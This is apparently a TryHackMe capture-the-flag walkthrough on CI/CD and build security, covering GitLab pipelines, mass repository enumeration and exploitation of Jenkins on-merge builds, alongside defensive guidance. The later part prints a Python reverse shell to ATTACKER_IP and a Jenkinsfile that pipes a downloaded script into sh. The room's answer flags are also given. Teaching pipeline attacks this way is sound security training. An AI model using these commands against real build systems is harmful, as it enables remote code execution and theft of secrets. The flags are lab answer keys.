



# CI/CD and Build Security

## Task 1 Introduction

Welcome to the CI/CD and Build Security network! In this room, we will explore what it takes to secure a DevOps pipeline and the builds it produces. Understanding the potential risks and consequences of insecure build processes is essential for recognising the urgency of implementing robust security measures. In this network, we will explore common insecurities and how threat actors can exploit these to compromise not only the process, but also production systems!

### Pre-Requisites

- SDLC
- SSDLC
- Intro to Pipeline Automation
- Dependency Management

### Learning Objectives

- Understand the significance of CI/CD and build system security within the DevSecOps pipeline.
- Explore the potential risks and consequences associated with insecure CI/CD pipelines and build processes.
- Gain awareness of the importance of integrating robust security measures into the build processes to ensure integrity with the deployment of applications.
- Learn about the practical attacks that can happen against misconfigured CI/CD pipelines and build processes.

:::info Answer the questions below

<details>

<summary> I'm ready to learn about CI/CD and Build Security! </summary>

```plaintext
No answer needed
```

</details>

:::

## Task 2 Setting up

### Patching In

Let's get you connected to the Nostromo and the greater extra-terrestrial network!

### AttackBox

If you are using the Web-based AttackBox, you will be connected to the network automatically if you start the AttackBox from the room's page. You can verify this by running the ping command against the IP of the Gitlab host. You should also take the time to make note of your VPN IP. Using `ifconfig` or `ip a`, make a note of the IP of the cicd network adapter. This is your IP and the associated interface that you should use when performing the attacks in the tasks.

### Other Hosts

If you are going to use your own attack machine, an OpenVPN configuration file will have been generated for you once you join the room. Go to your access page. Select 'Cicdandbuildsecurity' from the VPN servers (under the network tab) and download your configuration file.


Use an OpenVPN client to connect. This example is shown on the Linux machine; use this guide to connect using [Windows](https://tryhackme.com/access#pills-windows) or [macOS](https://tryhackme.com/access#pills-macos).

```shell title="Terminal"
[thm@thm]$ sudo openvpn cicdandbuildsecurity.ovpn
Fri Mar 11 15:06:20 2022 OpenVPN 2.4.9 x86_64-redhat-linux-gnu [SSL (OpenSSL)] [LZO] [LZ4] [EPOLL] [PKCS11] [MH/PKTINFO] [AEAD] built on Apr 19 2020
Fri Mar 11 15:06:20 2022 library versions: OpenSSL 1.1.1g FIPS  21 Apr 2020, LZO 2.08
[....]
Fri Mar 11 15:06:22 2022 /sbin/ip link set dev tun0 up mtu 1500
Fri Mar 11 15:06:22 2022 /sbin/ip addr add dev tun0 10.50.2.3/24 broadcast 10.50.2.255
Fri Mar 11 15:06:22 2022 /sbin/ip route add 10.200.4.0/24 metric 1000 via 10.50.2.1
Fri Mar 11 15:06:22 2022 WARNING: this configuration may cache passwords in memory -- use the auth-nocache option to prevent this
Fri Mar 11 15:06:22 2022 Initialization Sequence Completed
```

The "Initialization Sequence Completed" message tells you you are now connected to the network. Return to your access page. You can verify you are connected by looking on your access page. Refresh the page and see a green tick next to Connected. It will also show you your internal IP address.


### Configuring DNS

There is only two DNS entries for this network that are important. Thus, the simplest is to embed these DNS entry directly into your hosts file regardless of whether you are using the AttackBox or your own machine. To do this, review the network diagram above and make note of the IP of the Gitlab and Jenkins host. Then, perform the following command from a terminal:

`sudo echo <Gitlab IP> gitlab.tryhackme.loc >> /etc/hosts && sudo echo <Jenkins IP> jenkins.tryhackme.loc >> /etc/hosts`

However, if you have already started the network and need to re-add this entry or update it, use your favourite text editor program to directly modify the entry in your `/etc/hosts` file. Once configured, you can navigate to [http://gitlab.tryhackme.loc](http://gitlab.tryhackme.loc/) to verify that your access is working. You should be met with the following page:


### Contacting MU-TH-UR 6000

As you progress through this network, you must report your work to the MU-TH-UR 6000 mainframe, better known as Mother. You will have to register with Mother before you begin this perilous journey. SSH is being used for communication as detailed below:

|   -  Key-    |   -   Value-    |
| :----------: | :-------------: |
| SSH Username |   -  mother-    |
| SSH Password | motherknowsbest |
|  - SSH IP-   |  - X.X.X.250-   |

Use your network diagram to replace the X values in your SSH IP. Once you authenticate, you will be able to communicate with Mother. Follow the prompts to register for the challenge, and save the information you get for future reference. Once registered, follow the instructions to verify that you can access all the relevant systems.

The VPN server and the Mother mainframe are not in scope for this network, and any security testing of these systems may lead to a ban from the network.

As you make your way through the network, you will need to prove your compromises. To do that, you will be requested to perform specific steps on the host that you have compromised. Please note the hostnames in the network diagram above, as you will need this information. Flags can only be accessed from matching hosts.

**Note: If the network has been reset or you have joined a new subnet after your time in the network expired, your Mother account will remain active.**

:::info Answer the questions below

<details>

<summary> I am ready to start my CI/CD and Build security learning journey. </summary>

```plaintext
No answer needed
```

</details>

<details>

<summary> I am connected to the network using my preferred method of choice and can confirm that I can access the Gitlab server. </summary>

```plaintext
No answer needed
```

</details>

<details>

<summary> I have registered an account with Mother. </summary>

```plaintext
No answer needed
```

</details>

:::

## Task 3 What is CI/CD and Build Security?

### Introduction

Establishing a secure build environment is crucial to safeguarding your software development process against potential threats and vulnerabilities. In light of recent events such as the SolarWinds supply chain attack, it has become increasingly evident that building a robust security foundation is imperative. This task will explore key strategies to create a secure build environment, considering the lessons learned from the SolarWinds use case.

### Fundamentals of CI/CD

According to [Gitlab](https://about.gitlab.com/topics/ci-cd/), there are eight fundamentals for CI/CD:

- **A single source repository** - Source code management should be used to store all the necessary files and scripts required to build the application.
- **Frequent check-ins to the main branch** - Code updates should be kept smaller and performed more frequently to ensure integrations occur as efficiently as possible.
- **Automated builds** - Build should be automated and executed as updates are being pushed to the branches of the source code storage solution.
- **Self-testing builds** - As builds are automated, there should be steps introduced where the outcome of the build is automatically tested for integrity, quality, and security compliance.
- **Frequent iterations** - By making frequent commits, conflicts occur less frequently. Hence, commits should be kept smaller and made regularly.
- **Stable testing environments** - Code should be tested in an environment that mimics production as closely as possible.
- **Maximum visibility** - Each developer should have access to the latest builds and code to understand and see the changes that have been made.
- **Predictable deployments anytime** - The pipeline should be streamlined to ensure that deployments can be made at any time with almost no risk to production stability.

While all of these fundamentals will help to ensure that CI/CD can streamline the DevOps process, none of these really focus on ensuring that the automation does not increase the attack surface or make the pipeline vulnerable to attacks.

### A Typical CI/CD Pipeline

So what does a typical CI/CD-enabled pipeline look like? The network diagram of this room helps a bit to explain this. Let's work through the different components that can be found in this pipeline:

- **Developer workstations** - Where the coding magic happens, developers craft and build code. In this network, this is simulated through your AttackBox.
- **Source code storage solution** - This is a central placeholder to store and track different code versions. This is the Gitlab server found in our network.
- **Build orchestrator** - Coordinates and manages the automation of the build and deployment environments. Both Gitlab and Jenkins are used as build servers in this network.
- **Build agents** - These machines build, test and package the code. We are using GitLab runners and Jenkins agents for our build agents.
- **Environments** - Briefly mentioned above, there are typically environments for development, testing (staging) and production (live code). The code is built and validated through the stages. In our network, we have both a DEV and PROD environment.

Throughout this room, we will explore the CI/CD components in more detail and show the common security misconfigurations found here. It should be noted that DevOps pipelines with CI/CD can take many forms depending on the tools used, but the security principles that should be applied remain the same.

### SolarWinds Case

The SolarWinds breach was a significant cyberattack discovered in December 2020. The attackers compromised SolarWinds' software supply chain, injecting a malicious code known as SUNBURST into the company's Orion software updates. The attackers managed to gain unauthorised access to numerous organisations' networks, including government agencies and private companies. The breach highlighted the critical importance of securing software supply chains and the potential impact of a single compromised vendor on many entities.

We will use this case as we go through measures we can apply to ensure our build environment is secure. These measures are implementing isolation and segmentation techniques and setting up appropriate access controls and permissions to limit unauthorised access.

#### Implement Isolation and Segmentation Techniques

The SolarWinds incident highlighted the significance of isolating and segmenting critical components within the build system. By separating different stages of the build process and employing strict access controls, you can mitigate the risk of a single compromised component compromising the entire system. Isolation can be achieved through containerisation or virtualisation technologies, creating secure sandboxes to execute build processes without exposing the entire environment.

#### Set Up Appropriate Access Controls and Permissions

Limiting unauthorised access to the built environment is crucial for maintaining the integrity and security of the system. Following the principle of least privilege, grant access only to individuals or groups who require it to perform their specific tasks. Implement robust authentication mechanisms such as multi-factor authentication (MFA) and enforce strong password policies. Additionally, regularly review and update access controls to ensure that access privileges align with the principle of least privilege.

Implementing strict controls on privileged accounts is essential, including limiting the number of individuals with administrative access and strict monitoring and auditing mechanisms for privileged activities.

#### A note on Network Security

Network security is vital in protecting the build system from external threats. Implementing appropriate network segmentation, such as dividing the built environment into separate network zones, can help contain potential breaches and limit lateral movement. Here are a few more essential points to consider:

- Implement secure communication channels for software updates and ensure that any third-party components or dependencies are obtained from trusted sources.
- Regularly monitor and assess the security of your software suppliers to identify and address potential risks or vulnerabilities.

Learning from incidents such as the SolarWinds attack helps us recognise the critical importance of securing the entire build process, from code development to deployment, to safeguard against potential threats and ensure the trustworthiness of your software.

:::info Answer the questions below

<details>

<summary> What element of a CI/CD pipeline coordinates and manages the automation of build and deployment environments? </summary>

```plaintext
build orchestrator
```

</details>

<details>

<summary> What element of a CI/CD pipeline builds, tests, and packages code? </summary>

```plaintext
build agents
```

</details>

<details>

<summary> What fundamental of CI/CD promotes developers in having access to the latest builds and code in order to understand and see the changes that have been made? </summary>

```plaintext
maximum visibility
```

</details>

:::

## Task 4 Creating your own Pipeline

### Introduction

Before we explore misconfigurations, it is worth us first creating our very own pipeline so we can play around.

### Gitlab Registration

We will start the process by creating an account on the GitLab instance. Navigate to [http://gitlab.tryhackme.loc](http://gitlab.tryhackme.loc/) and select the **Register Now** option on the page. Fill in the required details to create your account and register. Remember to select a secure password and save it for your journey through this network! Once authenticated, you should be met by this page:


Feel free to explore the features of the Gitlab server. Gitlab is quite similar to Github; however, it allows you to host your very own server!

### Project Creation

Now that you have an account, the next step is to create a new project. Feel free to create some of your projects directly to play around with the feature. However, since we want to play around with pipelines, you can make a fork of an existing project that has been created for this purpose.

Click on the Your work tab, then the Explore option, and search for BasicBuild. You will see a project like this:


Once done, you can fork the project! This now creates a copy of the project you own and can configure.

### Understanding CI/CD Configuration

In Gitlab, project automation is defined in the .gitlab-ci.yml file. This file contains the steps that will be performed automatically when a new commit is made to the repo. Understanding what the commands in this file do will be important on your journey of learning about build security. Let's take a look at the contents of the file.

#### Stages

GitLab CI files allow you to define various jobs. Each job has different steps that must be executed, as found in the script section of the job. Usually, there are three stages to any CI pipeline, namely the build, test, and deploy stage, but there can be more. Let's take a look at the build job:

```yml title=".gitlab-ci.yml"
build-job:
  stage: build
  script:
    - echo "Hello, $GITLAB_USER_LOGIN!"
```

The first line, build-job, is the name of the job. The stage value is to tell Gitlab which stage of the CI Pipeline this job belongs to. As mentioned before, this can be built, tested, or deployed. Jobs in each stage are executed in parallel. That means all build jobs will execute simultaneously, as will all test and deploy jobs. If a job fails, later stages will not start. If a job does not specify a stage, it will automatically be assigned to the test stage. If you have to change the job order, you can use the needs section to define the names of jobs that have to be completed before the next job can be executed.

The script portion details the commands that will be executed as part of the job. As you can see, only an echo command will execute for this build job. However, we normally complete all the build activities in the build stage, such as loading dependencies and compiling our code. Since we are deploying a simple PHP website, there is no reason for code compiling.

#### Tests

Tests jobs are meant to perform tests on the build to ensure everything works as expected. Usually, you would execute more than one test job to ensure that you can individually test portions of the application. If one test job fails, the other test jobs will still continue, allowing you to determine all the issues with the current build, rather than having to do multiple builds. Let's take a look at the two test cases:

```yml title=".gitlab-ci.yml"
test-job1:
  stage: test
  script:
    - echo "This job tests something"

test-job2:
  stage: test
  script:
    - echo "This job tests something, but takes more time than test-job1."
    - echo "After the echo commands complete, it runs the sleep command for 20 seconds"
    - echo "which simulates a test that runs 20 seconds longer than test-job1"
    - sleep 20
```

As you can see, we don't have anything to test with our simple PHP web application. However, we can simulate that one test case will take longer than the other.

#### Deployment

In the deployment stage, we want to deploy our application to the relevant environment if both the build and test stages succeed. Usually, branches are used in source code repos, with the main branch being the only one that can deploy to production. Other branches will deploy to environments such as DEV or UAT. Let's take a look at what we are doing in the deployment job:

```yml title=".gitlab-ci.yml"
deploy-prod:
  stage: deploy
  script:
- echo "This job deploys something from the $CI_COMMIT_BRANCH branch."
    - echo "Making the website directory"
    - mkdir -p /tmp/time/cicd
    - echo "Copying the website files"
    - cp website_src/* /tmp/time/cicd/
    - echo "Hosting website using a screen"
    - screen -d -m php -S 127.0.0.1:8081 -t /tmp/time/cicd/ &    
    - echo "Deployment complete! Navigate to http://localhost:8081/ to test!"
  environment: production
```

The first step of the deploy job is to create a new directory under /tmp/ where we can place our web application. We then copy the web application files to the directory and alter the permissions of the files. Once done, host the application, making use of PHP. Now, we are ready to launch our application!

CI files can become a lot more complex as there are a lot more sections and keywords that you could use. If you want to learn more, you can look [here](https://docs.gitlab.com/ee/ci/yaml/index.html). Now that we better understand the embedded automation, let's look at actually using it. To have the build execute, we need to register a runner.

### Runner Registration

In Gitlab, we use runners to execute the tasks configured in the project. Let's follow the process to register your attack machine as a runner for your project.

**Note**: Make sure that PHP is installed (`sudo apt install php7.2-cli`) before continuing. Note that if you are doing this on your own machine, ensure you are okay with the runner deploying a web application to your machine. If not, it is best to perform this on the AttackBox.

In your project, click on Settings and then CI/CD:


Expand the Runners section, and you should see the following screen:


Here, you will be able to configure a new runner for your project. Click the three dots and the Show Runner installation steps button. You will see the following screen:


The first code block is to install the GitLab-runner application. Follow these steps to install the application on your attack machine. Once done, use the command in the second code block to register your runner. Follow the prompts as shown below for the installation process:

```shell title="Terminal"
root@ip-10-10-45-212:~# sudo gitlab-runner register --url http://gitlab.tryhackme.loc/ --registration-token "token"
Runtime platform                                    arch=amd64 os=linux pid=7248 revision=782e15da version=16.2.0
Running in system-mode.                            
                                                   
Enter the GitLab instance URL (for example, https://gitlab.com/):
[http://gitlab.tryhackme.loc/]: 
Enter the registration token:
["token"]: 
Enter a description for the runner:
[ip-10-10-45-212]: runner-attackbox
Enter tags for the runner (comma-separated):
production
Enter optional maintenance note for the runner:

WARNING: Support for registration tokens and runner parameters in the 'register' command has been deprecated in GitLab Runner 15.6 and will be replaced with support for authentication tokens. For more information, see https://gitlab.com/gitlab-org/gitlab/-/issues/380872 
Registering runner... succeeded                     runner=GR1348941qguXCM9b
Enter an executor: shell, virtualbox, instance, kubernetes, custom, docker, docker-windows, docker+machine, parallels, ssh, docker-autoscaler:
shell
Runner registered successfully. Feel free to start it, but if it's running already the config should be automatically reloaded!
 
Configuration (with the authentication token) was saved in "/etc/gitlab-runner/config.toml"
```

Now that your runner is configured, you can refresh the page on Gitlab, and you should see your runner:


The last step is configuring your runner to execute untagged jobs, as our current CI Pipeline does not use tags. Normally, tags would be used to ensure that the correct runners pick up the various jobs. However, since we have a simple job, we can just tell our runner to execute all jobs. Click the little pencil icon and click Run untagged jobs:


You are now ready to start the build process!

### Build Automation

Now that the runner is registered, we can test the build process by making a new commit. The easiest change to make that would kick off a build is to update the README.md file:

1. lick on the file in the repo
2. Select Edit
3. Select Edit single file
4. Make an update to the file
5. Click Commit changes

Once done, your build process will have started! We can follow the process by clicking on Build and then Pipelines:



Once there, you should see that your pipeline has kicked off! Click on the pipeline to view which job it is currently performing and the output thereof:


You can also click on the pipeline to view its progress:



Once completed, your application will have been deployed! You can verify this by navigating to [http://127.0.0.1:8081/](http://127.0.0.1:8081/), and you should be met by the web application homepage.


Congrats! You have created your very own CI/CD pipeline and build process! Feel free to play around more with the CI/CD pipeline configuration and your runner!

**Note**: If you wish to remove the website, you can use `sudo su gitlab-runner` followed by `screen -r` to connect to the screen that is hosting your website. From here, you will be able to terminate the website.

:::info Answer the questions below

<details>

<summary> What is the name of the build agent that can be used with Gitlab? </summary>

```plaintext
Gitlab Runner
```

</details>

<details>

<summary> What is the value of the flag you receive once authenticated to Timekeep? </summary>

```plaintext
THM{Welcome.to.CICD.Pipelines}
```

</details>

:::

## Task 5 Securing the Build Source

### Source Code Security

As mentioned in the Introduction to Pipeline Automation and Source Code Security rooms, the first step to securing the pipeline and the build is to secure the source. In the event that a threat actor can compromise the source of our build, they are in a position to compromise the build itself. We want to protect our source code from the following two main issues:

- **Unauthorised Tampering** - This is the simplest issue of the two. Only authorised users should be able to make changes to the source code. This means that we want to control who has the ability to push new code to our repo.
- **Unauthorised Disclosure** - This is a bit more tricky. Depending on the application, the source code itself might be considered sensitive. For example, Microsoft would not like to disclose the source code of Word since that is their intellectual property. In cases where the source code is sensitive, we must ensure we do not intentionally disclose it. This issue is a lot more common to find.

### Confusion of responsibilities

Let's take a look at exploiting an insecure build source. A common mistake made in large organisations is believing that the perimeter is a sufficient security boundary. Although the perimeter plays a role, it should not be seen as the only boundary. Granular access control on the internal network should be implemented as well. This false belief can lead to interesting misconfigurations. Let's take a look at a practical example.

Some organisations are incredibly large and have multiple teams and business units responsible for different things. If we take an organisation such as a bank, many different teams and units work together to run the bank. Furthermore, in large organisations like this, it isn't as simple as just saying that we have an "IT" business unit, as there may be several teams working on many different IT and development projects within the bank, using a wide range of coding languages, CI/CD pipelines, and build frameworks. Such large organisations may choose to host their source code internally since much of that development may be intellectual property (IP). While we would hope that access to the various source code repos would be managed granularly, mistakes do creep in.

One such mistake is that organisations can leave registration for their Gitlab instance open. Not open to the internet (although this has also happened before), but open to any user on their internal network to register a profile. This was simulated in the previous task by allowing you to register your own Gitlab profile.

Some would consider this not to be a direct risk, but let's look at how the attack surface grows. Our example bank organisation might have 10,000 employees, of which 2000 may be working as developers and need access to Gitlab. In essence, our attack surface has grown by 500%! If a single employee of our bank is compromised, an attacker would have the ability to register a profile and exfiltrate any publicly shared repos.

This is the second misconfiguration that comes into play. Developers of our bank may believe that because the Gitlab instance is only accessible internally, it is okay to configure repos to be shared publicly. This means that any user who has a valid Gitlab account will be able to view the repo. While they may perhaps not be able to alter the code, remember, in this example, the code itself is seen as the IP of the bank. This confusion between who is responsible for securing the source code can lead to sensitive information being disclosed to the threat actor. Let's take a look at how this can be exploited!

### Exploiting a vulnerable build source

You have already registered a profile on the GitLab instance. While you can use manual enumeration to find sensitive information in repos, where you are on a red team, you will need to automate this process to ensure stealth and efficiency. We will not be teaching both in this task for obvious reasons, so let's look at how we can make the process efficient. To efficiently enumerate publicly visible repos, we will make use of the Gitlab API and a Python script as follows:

```python title="enumerator.py"
import gitlab
import uuid

# Create a Gitlab connection
gl = gitlab.Gitlab("http://gitlab.tryhackme.loc/", private_token='REPLACE_ME')
gl.auth()

# Get all Gitlab projects
projects = gl.projects.list(all=True)

# Enumerate through all projects and try to download a copy
for project in projects:
    print ("Downloading project: " + str(project.name))
    #Generate a UID to attach to the project, to allow us to download all versions of projects with the same name
    UID = str(uuid.uuid4())
    print (UID)
    try:
        repo_download = project.repository_archive(format='zip')
        with open (str(project.name) + "_" + str(UID) +  ".zip", 'wb') as output_file:
            output_file.write(repo_download)
    except Exception as e:
        # Based on permissions, we may not be able to download the project
        print ("Error with this download")
        print (e)
        pass
```

**Note**: Make sure to install the Gitlab pip package using `pip3 install python-gitlab==3.15.0`.

As mentioned before, the script provided is not stealthy. Rather than first determining which repos are publicly available, it recovers the entire list of all repos and attempts to download each of them. This shows an example of how a threat actor can quickly and easily recover all publicly available repos. Feel free to play around with the script to introduce stealth.

As you will see, line 5 of the script requires a Gitlab authentication token. Gitlab does not allow for its API to be interfaced with using credentials, as this is deemed insecure. Therefore, to use the script, we will first have to generate an API token for our account. Authenticate to the Gitlab server and perform the following steps:

1. Click on your profile icon and select Preferences:

    

2. Click on Access Tokens:

    

3. Enter a name for a new API token and select the api, read_api, and read_repository scopes:

    

4. Click Create personal access token, reveal, and copy your access token to a safe location:

    

5. Add the token to the script and execute it to download all repos:

    ```shell title="Terminal"
    [thm]$ python3.9 enumerator.py 
    Downloading project: Basic Build
    3609db7f-0d07-440c-bdc6-1f78cb283f6a
    Downloading project: Mobile App
    836fe1fa-0fc2-4917-b1c1-61badef3b711
    ```

Now you have successfully downloaded all of the publicly available repos! At this point, there are several ways you can look for sensitive information. The easiest would be to extract all repos and run a grep for specific keywords, such as `secret`. Make sure to read through the available repos to find the hidden secret flag! Note: don't change the name of the script (enumerator.py) as it will throw errors!

### Securing the Build Source

Granular access control is crucial to managing repositories and the GitLab platform. It involves defining specific permissions and restrictions for different users or groups, ensuring that only authorised individuals have the appropriate level of access to sensitive resources. This helps maintain security, confidentiality, and effective collaboration within a development environment.

In GitLab, group-based access control is a powerful mechanism that simplifies permissions management across multiple repositories and projects. Here's how it works:

1. **Group-Based Access Control**: GitLab allows you to organise projects into groups. Instead of managing access for each project separately, you can set permissions at the group level. This means that the same access rules apply to all projects within the group, making it easier to maintain consistent security policies. For example, you can create a group for the development team and define permissions, such as who can view, edit, or contribute to projects within that group. This approach streamlines access management and reduces the chances of errors or oversights when configuring permissions for individual repositories.
2. **Access Levels** : GitLab offers different access levels, such as Guest, Reporter, Developer, Maintainer, and Owner. Each level comes with specific capabilities and permissions. Assigning the appropriate access level to each user or group ensures they have the necessary privileges without granting unnecessary permissions.
3. **Sensitive Information Protection** : One critical consideration is preventing the accidental exposure of sensitive information. GitLab provides features to help with this:
    1. **GitLab's .gitignore** : This file specifies which files or directories should be excluded from version control. It's crucial for preventing sensitive data like passwords, API keys, and configuration files from being committed to repositories.
    2. **Environment Variables** : GitLab allows you to define and manage environment variables securely, separate from the source code. This is especially useful for storing sensitive data needed during the CI/CD process without exposing it in the repository.
    3. **Branch Protection** : Branches, like master or main, can be protected to prevent direct pushes, ensuring that changes go through code review and automated testing before merging.

Remember, maintaining the security of both the repositories and the GitLab instance itself requires constant vigilance and best practices:

- Review and update access permissions regularly as team members change roles or leave the organisation.
- Implement two-factor authentication (2FA) to add an extra layer of security to user accounts.
- Monitor audit logs to track who has accessed or modified repositories and projects.
- Regularly scan repositories for sensitive information using tools designed for this purpose.

:::info Answer the questions below

<details>

<summary> Which file specifies which directories and files should be excluded for version control? </summary>

```plaintext
.gitignore
```

</details>

<details>

<summary> What can you protect to ensure direct pushes and vulnerable code changes are avoided? </summary>

```plaintext
Branches
```

</details>

<details>

<summary> What issue does lack of access control and unauthorised code changes lead to? </summary>

```plaintext
unauthorised tampering
```

</details>

<details>

<summary> What is the API key stored within the Mobile application that can be accessed by any Gitlab user? </summary>

```plaintext
THM{You.Found.The.API.Key}
```

</details>

:::

## Task 6 Securing the Build Process

Now that we have paid attention to protecting the build source of our pipeline, next on our journey is ensuring that the build process itself does not have misconfigurations that can lead to compromise.

### Managing Dependencies

The first step to securing the build process is to secure the dependencies of the build. As our pipeline kicks off, it will start by compiling our source code into the final build. However, our source code may depend on external libraries and SDKs for its functionality. Thus, during this compilation process, the build pipeline will gather these dependencies to perform the build. There are two main concerns for our build process when it comes to dependencies:

- Supply Chain Attacks - If a threat actor can take over one of these dependencies, they would be able to inject malicious code into the build
- Dependency Confusion - If an internally developed dependency is used, an attacker could attempt a dependency confusion attack to inject code into the build process itself.

Both of these attacks have already been covered in the [Dependency Management room](http://tryhackme.com/jr/dependencymanagement) if you want to learn more and practically exploit these attacks. In this task, we will focus on a misconfiguration within the build process itself.

### Knowing When to Start the Build

A big issue with pipelines and the build process is that, in a nutshell, whether you like to hear it or not, it is remote code execution as a feature. Once a pipeline kicks off, the build server communicates to one of the build agents to perform the build, which includes reading the commands that have to be executed from the CI file and performing them. While this creates automation, it also creates the risk that if an attacker can alter what is being built or when, they might be able to leverage this code execution to compromise systems. Therefore, we need to pay special attention to the following:

- What actions do we allow to kick off the build process?
- Who has permission to perform these actions to kick off the build process?
- Where will the build process occur?

The answers to these questions can help you determine the attack surface of your pipeline. While, in most cases, a bad answer to one of these questions won't compromise either the build or the pipeline, there are some toxic combinations that you must be aware of. Let's take a bit of a closer look at these three questions.

#### What actions start the build process

We have the ability to decide what actions can start the build process. Normally, by default, a commit of new code to the source will start the pipeline. But we do have the ability to provide a much more granular configuration. For example, we can decide that only commits to specific branches, such as main, should start the pipeline. This configuration means that we can, with a lot more peace of mind, allow developers to make direct commits to other branches. As long as we limit who has the ability to either directly commit to the main branch or approve merge requests for it, we can limit the attack surface of our pipeline.

However, this might run us into the issue where those merge requests break in the pipeline, causing us to perform multiple merges just to fix the issue, which can be tedious. Therefore, there may be a use case to have the build process already start on other branches or when new merge requests are made to indicate whether the merge request would break our pipeline. If we choose to go down this path, we must understand that our attack surface has grown since multiple actions could start the build process. Nothing to worry about just yet, but we must ensure that these actions cannot be performed simply by anyone!

#### Who can start the build process

Once we decide which actions can start the build process, we need to narrow down who can perform these actions. As mentioned before, the pipeline only executes when code is merged to the main branch; this can be a very small list of users who have the ability to approve these merges. The question becomes more complicated if we allow builds to kick off from other actions. Based on the actions (and branches) that can start the build, we will have to ask who can start it and add them to the list, thereby growing the attack surface. For example, if we allow builds to start on merge requests themselves, we have to ensure that the attacker cannot make a merge request or that the merge build will occur in a segregated environment.

#### Where will the build occur

Lastly, we need to decide where the build will occur. We don't have to simply rely on a single build agent to perform all of our builds. In the above example, if we want developers to run builds on other branches, we can just simply register a new build agent that will run a build in a different environment than the build agent of the main branch. Based on our answers to the previous two questions, we may need to ensure we secure where the build will execute. If we allow multiple actions to start the build, we probably want to ensure that the same build agent is not used for all of these actions, as they have different degrees of sensitivity.

Now that we understand the three questions we must answer, let's explore a very interesting but common toxic combination!

### Exploiting a Merge Build

A common toxic combination is called On-Merge builds. Let's take a look at the README left in Ash Android's repo ([http://gitlab.tryhackme.loc/ash/Merge-Test](http://gitlab.tryhackme.loc/ash/Merge-Test)):


It seems like Ash is getting tired of users making merge requests to his code, only for it to break his pipelines! To combat this, he has enabled on-merge builds. This means that a build will be executed to test the merge code as soon as a merge request is made. This is a very common configuration. Certain CI/CD software, such as Jenkins, enables this by default! The issue, however, is that this could lead to a compromise. Let's see how to leverage this to compromise a build agent and some secrets!

Reviewing the source code, we see that Ash uses a Jenkinsfile. This is a CI/CD script that will be executed by Jenkins through a webhook. Effectively, when certain actions are performed, such as a merge request is opened, or code is pushed to a branch, Gitlab will notify Jenkins of the change through a webhook. Jenkins would then pull the source code and execute the steps listed in the Jenkinsfile before providing feedback to Gitlab on the outcome of the build.

However, this is also what creates the issue. If a merge request is going to be built and any user can modify both the source code and the CI/CD Jenkinsfile, it means that users can cause the build agent to build malicious code. To perform this process, we will first need to fork Ash's repo. Navigate to the repo and press the Fork option:


Forking will create a copy of the project. Select your namespace, mark the project as Private, and select Fork project:


While there are multiple ways in which the merge build can be exploited, we will focus on the simplest method, which is to alter the Jenkinsfile. CI/CD pipelines are often just code execution as a feature, and we can leverage this by updating the Jenkinsfile to simply execute a shell for us! There are many ways to do this; if you feel comfortable, you can play around alone. We will follow a slower approach to ensure we get feedback from the Jenkins server as the build executes. To do this, we will first create a simple reverse shell file:

```bash title="shell.sh"
/usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

Make sure to modify ATTACKER_IP to be your VPN or AttackBox IP. You can now host this file with a simple Python webserver using `python3 -m http.server 8080` and we can create a listener using `nc -lvp 8081`. Click on the Jenkinsfile, then Edit, and replace your Jenkinsfile with the following code:

```plaintext title="Jenkinsfile"
pipeline {
    agent any
    stages {
       stage('build') {
          steps {
              sh '''
                    curl http://ATTACKER_IP:8080/shell.sh | sh
                '''                 
              }             
          }
       }       
    }
```

Once you have made the edit, commit the changes. To have Jenkins execute our now malicious Jenkinsfile, we need to create a merge request:


